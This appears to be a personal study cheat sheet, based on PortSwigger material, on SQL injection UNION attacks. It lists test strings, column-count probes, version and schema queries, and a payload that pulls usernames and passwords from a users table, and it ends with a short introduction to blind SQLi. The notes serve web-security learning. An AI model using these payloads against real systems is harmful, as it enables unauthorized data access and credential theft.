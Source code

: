 # Portswigger
sql-injection cheat-sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQLi - UNION Attack
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

**Note:** don't forget to use url encoding

### Test for SQLi
~~~
jeremy'
jeremy"

jeremy' or 1=1#
jeremy' or 1=1--

jeremy' or 1=2--
~~~


### Number of columns
~~~
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
~~~

finding oclumns with a useful data type
~~~
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
~~~


### Database version
~~~
Oracle 	        SELECT banner FROM v$version
                SELECT version FROM v$instance

Microsoft 	SELECT @@version

PostgreSQL 	SELECT version()

MySQL 	        SELECT @@version
~~~

example
~~~
' UNION SELECT NULL,NULL,version()#
~~~

### Database tables & columns
~~~
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
~~~

example tables
~~~
' UNION SELECT NULL,NULL,table_name from information_schema.tables#
~~~

example columns
~~~
' UNION SELECT NULL,NULL,column_name from information_schema.columns#
~~~

### Interesting data
example
~~~
' UNION SELECT username, password FROM users--
~~~

example - concatenation
~~~
' UNION SELECT username || '~' || password FROM users--
~~~

## SQLi - BLIND Attack
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

**Note:** UNNION attacks are not effective with blind sql injection.